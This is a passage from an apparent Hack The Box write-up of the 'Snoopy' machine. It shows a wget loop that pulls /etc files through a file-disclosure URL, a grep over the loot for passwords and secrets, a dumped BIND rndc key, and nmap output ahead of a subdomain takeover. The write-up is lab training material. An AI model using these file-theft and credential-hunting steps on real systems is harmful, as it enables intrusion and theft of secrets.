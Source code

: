 Download files from the result

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot]
└─$ mkdir etc_files

┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot]
└─$ cd etc_files

┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot/etc_files]
└─$ for url in $(cat ../ffuf_etc_files.txt|jq .results[].url -r); do wget $url -O tmp && zcat tmp > $(echo $url|sed -e 's/^.*?file=.*\/\///g' -e 's/\//_/g'); done
```


### Subdomain Takeover : mail.snoopy.htb

Grep for secrets

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot/etc_files]
└─$ grep -riE 'pass|pwd|secret'
```

![](/assets/obsidian/53d73a62f14c805e15e4bd5820747514.png)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot/etc_files]
└─$ cat etc_bind_named.conf
// This is the primary configuration file for the BIND DNS server named.
//
// Please read /usr/share/doc/bind9/README.Debian.gz for information on the
// structure of BIND configuration files in Debian, *BEFORE* you customize
// this configuration file.
//
// If you are just adding zones, please do that in /etc/bind/named.conf.local

include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};
```

Since nmap scan shows it's using `bind` as dns server

```bash
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.18.12-0ubuntu0.22.04.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.18.12-0ubuntu0.22.04.1-Ubuntu
```
